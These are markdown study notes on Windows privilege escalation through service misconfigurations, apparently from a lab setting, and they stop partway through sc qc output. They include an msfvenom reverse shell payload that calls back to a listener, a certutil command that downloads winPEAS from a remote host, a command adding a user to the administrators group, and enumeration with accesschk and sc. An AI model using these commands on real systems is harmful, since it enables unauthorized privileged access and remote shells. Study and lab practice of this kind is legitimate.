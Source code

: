 ```bash 
sc.exe query <name>
```
Modify a configuration option of a service:

```bash
 sc.exe config <name> <option>= <value>
```
Note the option name must be immediately followed by an equal sign and the space before the value. 
Start/Stop a service:

```bash
 net start/stop <name>
 ```

## 5 Types of Servie Misconfigurations:
1. Insecure Service Properties
2. unquoted Service Path
3. Weak Registry Permission
4. Insecure Service Executables
5. DLL Hijacking

### accesschk

## 1. Insecure Service Permission
If our user has permission to change the configuration of a
service which runs with SYSTEM privileges, we can change
the executable the service uses to one of our own.
Potential Rabbit Hole: If you can change a service
configuration but cannot stop/start the service, you may not
be able to escalate privileges!


```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o rev.exe

certutil.exe -urlcache -split -f http://10.10.14.8/winPEAS-x64.exe winPEAS-x64.exe

net localgroup administrators <username> /add

python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .

# Run winPEAS to check for service misconfigurations:

winPEASany.exe quiet servicesinfo
Note that we can modify the “daclsvc” service.We can confirm this with accesschk.exe:

accesschk.exe /accepteula -uwcqv user daclsvc

user=username
daclsvc name of the service. 

#Check the current configuration of the service:
sc qc daclsvc

C:\Users\user\Desktop\tools\tools>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
```